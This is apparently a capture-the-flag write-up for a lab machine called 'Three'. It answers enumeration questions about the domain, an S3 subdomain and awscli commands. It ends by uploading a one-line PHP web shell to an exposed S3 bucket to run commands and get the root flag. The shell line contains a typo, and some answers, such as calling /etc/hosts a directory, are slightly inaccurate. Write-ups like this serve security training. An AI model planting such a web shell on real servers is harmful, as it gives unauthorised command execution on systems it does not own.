


# Three



## Task 1

How many TCP ports are open?



2

## Task 2

What is the domain of the email address provided in the "Contact" section of the website? 


thetoppers.htb 

## Task 3

In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames? 


```jsx
/etc/hosts directory
```

## Task 4

Which sub-domain is discovered during further enumeration? 


s3

## Task 5

Which service is running on the discovered sub-domain? 

```jsx
Amazon s3
```

## Task 6

Which command line utility can be used to interact with the service running on the discovered sub-domain? 


awscli

## Task 7

Which command is used to set up the AWS CLI installation? 

```jsx
aws configure
```

## Task 8

What is the command used by the above utility to list all of the S3 buckets? 


```jsx
aws s3 ls
```

## Task 9

This server is configured to run files written in what web scripting language? 


PHP

for obtaining the root flag, we had to write a small php code that would prompt a cmdlet for us to get the flag, however, we had to upload the code to the s3 bucket inorder to be able to access it.

The code we shall use is as follows.

```jsx
<?php system(_$GET['cmd']); ?>
```


we shall then access the shell.php file form the url in order to get our root flag


and with that, we have pawned the machine.